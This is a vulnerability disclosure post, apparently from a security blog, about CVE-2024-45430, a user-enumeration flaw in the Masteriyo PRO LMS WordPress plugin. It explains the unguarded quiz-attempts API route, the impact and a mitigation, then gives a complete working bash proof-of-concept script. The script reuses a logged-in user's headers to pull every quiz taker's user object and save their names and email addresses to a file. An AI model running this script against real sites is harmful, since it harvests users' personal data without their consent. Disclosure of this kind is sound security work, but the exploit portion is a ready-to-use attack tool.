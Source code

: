 ```yaml
---
title: User Enumeration Vulnerability in Masteriyo (CVE-2024-45430)
author: meyer
date: 2024-08-30 03:55:00 -0500
categories: [Cybersecurity]
tags: [cve, masteriyo, wordpress, plugin]
pin: true
---
```


## Overview

The Masteriyo PRO - LMS for WordPress plugins contain a vulnerability that allows arbitrary user enumeration without administrative privileges. As of the publication date, this issue remains unresolved, affecting all available versions (<=2.13.3).

## Technical Details

The Quiz Attempts functionality enables user enumeration, as both the administrative panel and the regular user dashboard use the same API endpoint that does not validate whether the user is an administrator or not. This means that any user can view the attempts of all other users. The affected route is /wp-json/masteriyo/v1/quizes/attempts/?page=1&per_page=10, where manipulating the arguments and formatting the output allows enumerating all users who have taken quizzes.

![quiz-attempts](/assets/img/dashboard-quiz-attempts.png)
_Normal behavior_

![quiz-attempts-fail](/assets/img/dashboard-quiz-attempts-fail.png)
_Using the filter_

![quiz-attemps-object](/assets/img/quiz-attempts-object.png)
_Another user object_

## Impact

By exploiting this vulnerability, an attacker with a regular user account can access sensitive user information, such as display names, first names, last names, and email addresses, without the need for an admin account.

## Mitigation

Disabling the quiz attempts page for users is the unique solution for now.

![mitigation](/assets/img/mitigation.png)
_WordPress Admin Panel_

## Exploit

You can create users and experiment in a secure environment using the official [Pro Demo](https://masteriyo.demoswp.net/){:target="\_blank"}. Be sure to complete some quizzes during your testing.

{% include embed/youtube.html id='MCP1JrOXtRQ' %}

```bash
#!/bin/bash

# CVE: CVE-2024-45430
# PoC Script
# Author: Meyer Pidiache <meyer-pidiache>
# Description: This script is a proof of concept for CVE-2024-45430.
# Prerequisites:
# - Headers file for HTTP requests (default 'headers.txt').
# Usage:
#   ./script.sh -u <URL of the API endpoint> -h <headers file> -o <users output file>
# Example:
#   ./script.sh -u http://localhost:8080/wp-json/masteriyo/v1/quizes/attempts -h headers.txt -o users.json
# Notes:
#   To obtain the headers from any request with an active session:
#   Browser -> Developer Tools -> Network -> Request -> Right-click -> Copy value -> Copy request headers.

# Colors and formatting for CLI output
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
RED='\033[0;31m'
BLUE='\033[0;34m'
BOLD='\033[1m'
NC='\033[0m' # No color

# Function to display usage
show_usage() {
  echo -e "${YELLOW}Usage: $0 -u <URL of the API endpoint> -h <headers file> -o <users output file>${NC}"
  exit 1
}

# Process arguments
while getopts ":u:h:o:" opt; do
  case $opt in
    u) BASE_URL="$OPTARG" ;;
    h) HEADERS_FILE="$OPTARG" ;;
    o) USER_FILE="$OPTARG" ;;
    \?) echo -e "${RED}[!] Invalid option -$OPTARG${NC}" >&2; show_usage ;;
    :) echo -e "${RED}[!] Option -$OPTARG requires an argument${NC}" >&2; show_usage ;;
  esac
done

# Check that the base URL was provided
if [ -z "$BASE_URL" ]; then
  echo -e "${RED}[!] You must provide the Base URL as an argument.${NC}"
  show_usage
fi

# Use default values if no files were provided
HEADERS_FILE="${HEADERS_FILE:-headers.txt}"
USER_FILE="${USER_FILE:-users.json}"

# Read headers from file and exclude lines that start with "GET", "POST", etc.
HEADERS=()
while IFS= read -r line; do
  if [[ "$line" != *HTTP* ]]; then
    HEADERS+=('-H' "$line")
  fi
done < "$HEADERS_FILE"

# Verify if the headers are valid by making a test request
echo -e "${BLUE}[*] Verifying headers...${NC}"
test_response=$(curl -s -o /dev/null -w "%{http_code}" --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ "$test_response" -ne 200 ]; then
  echo -e "${RED}[!] The headers are invalid or the URL is not accessible.${NC}"
  echo -e "${YELLOW}[!] Please check the headers file or the provided URL.${NC}"
  exit 1
fi

# Check if the users file exists, if not create it as an empty array
if [ ! -f "$USER_FILE" ]; then
  echo "[]" > "$USER_FILE"
  echo -e "${YELLOW}[!] File $USER_FILE created as an empty array.${NC}"
fi

echo -e "${BLUE}[*] Retrieving the total number of attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the first request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=1\" \"${HEADERS[@]}\"${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  exit 1
fi

total_attempts=$(echo "$response" | jq -r '.meta.total')

if [ -z "$total_attempts" ] || [ "$total_attempts" -le 0 ]; then
  echo -e "${RED}[!] Failed to retrieve the total number of attempts.${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  total_attempts=10
fi

echo -e "${GREEN}[*] Total attempts to investigate: $total_attempts${NC}"

echo -e "${BLUE}[*] Investigating attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the second request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user\" \"${HEADERS[@]}\"${NC}"
  exit 1
fi

existing_ids=$(jq -r '.[].id' "$USER_FILE")

if [ ${#existing_ids[@]} -gt 0 ]; then
  echo -e "${BLUE}[*] Saving user information...${NC}"

  # Use an associative array to store existing IDs
  declare -A id_map
  for id in $existing_ids; do
    id_map["$id"]=1
  done

  echo "$response" | jq -c '.data[] | .user' | while IFS= read -r user; do
    id=$(echo "$user" | jq -r '.id')

    if [[ -z "${id_map[$id]}" ]]; then
      # Add user to the file
      jq --argjson user "$user" '. += [$user]' "$USER_FILE" > "${USER_FILE}.tmp" && mv "${USER_FILE}.tmp" "$USER_FILE"
      id_map["$id"]=1

      useremail=$(echo "$user" | jq -r '.email')
      echo -e "${GREEN}[*] User saved: ${BOLD}$useremail${NC} (ID: $id)"
    fi
  done

else
  echo -e "${YELLOW}[*] No users found.${NC}"
fi

echo -e "${BLUE}[*] Operation completed.${NC}"
```

![exploit](/assets/img/exploit.png)
